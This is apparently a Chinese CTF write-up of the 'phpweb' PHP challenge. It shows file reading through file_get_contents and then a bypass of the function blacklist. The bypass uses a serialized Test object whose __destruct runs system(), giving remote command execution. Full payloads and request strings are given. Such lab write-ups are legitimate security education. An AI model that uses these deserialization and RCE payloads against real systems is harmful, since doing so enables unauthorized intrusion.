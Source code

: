 ![[Pasted image 20221113204640.png]]

---
每隔五秒`POST`一次，传递`func`和`p`参数

![[Pasted image 20221113204657.png]]

![[Pasted image 20221113204833.png]]
```php
func=abc&p=123
```
> call_user_func() expects parameter 1 to be a valid callback, function 'abc' not found or invalid function name

尝试`system`执行
```php
func=system&p=ls
```
> Hacker...

被过滤了QAQ

再尝试`file_get_contents`获取`flag`
```php
func=file_get_contents&p=/flag
```
> file_get_contents(/flag): failed to open stream: No such file or directory

并没有`/flag`这个文件，但是`file_get_contents`没有被过滤，尝试利用这一点获取`index.php`的内容
```php
func=file_get_contents&p=index.php
```

```php
<!DOCTYPE html>
<html>
	<head>
	    <title>phpweb</title>
	    <style type="text/css">
	        body {
	            background: url("bg.jpg") no-repeat;
	            background-size: 100%;
	        }
	        p {
	            color: white;
	        }
	    </style>
	</head>

	<body>
	<script language=javascript>
	    setTimeout("document.form1.submit()",5000)
	</script>
	<p>
	    <?php
	    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
	    function gettime($func, $p) {
	        $result = call_user_func($func, $p);
	        $a= gettype($result);
	        if ($a == "string") {
	            return $result;
	        } else {return "";}
	    }
	    class Test {
	        var $p = "Y-m-d h:i:s a";
	        var $func = "date";
	        function __destruct() {
	            if ($this->func != "") {
	                echo gettime($this->func, $this->p);
	            }
	        }
	    }
	    $func = $_REQUEST["func"];
	    $p = $_REQUEST["p"];
	
	    if ($func != null) {
	        $func = strtolower($func);
	        if (!in_array($func,$disable_fun)) {
	            echo gettime($func, $p);
	        }else {
	            die("Hacker...");
	        }
	    }
	    ?>
	</p>
	<form  id=form1 name=form1 action="index.php" method=post>
	    <input type=hidden id=func name=func value='date'>
	    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
	</body>
</html>
```
好家伙，ban了这么多

注意到有个从没用到的`Test`类，里边还有个`__destruct`方法，而且`unserialize`也没被ban，看来反序列化八九不离十了

大致思路是构造payload，利用反序列化生成`Test`类的一个对象，再借由其`__destruct`方法绕过过滤

```php
<?php
class Test {
    var $p;
    var $func;
}

$payload = new Test;
$payload->func = "system";
$payload->p = 'find / -name *flag*';
echo serialize($payload);
?>
```
> O:4:"Test":2:{s:1:"p";s:19:"find / -name \*flag\*";s:4:"func";s:6:"system";}
```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}
```

```
...
/tmp/flagoefiu4r93
...
```
---
读取`flag`
```php
$payload->p = 'cat /tmp/flagoefiu4r93';
```
> O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}

```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

```
flag{3b352024-0ec2-4ac3-a110-9cbd86917b0c}
```

#Web #PHP #反序列化 #RCE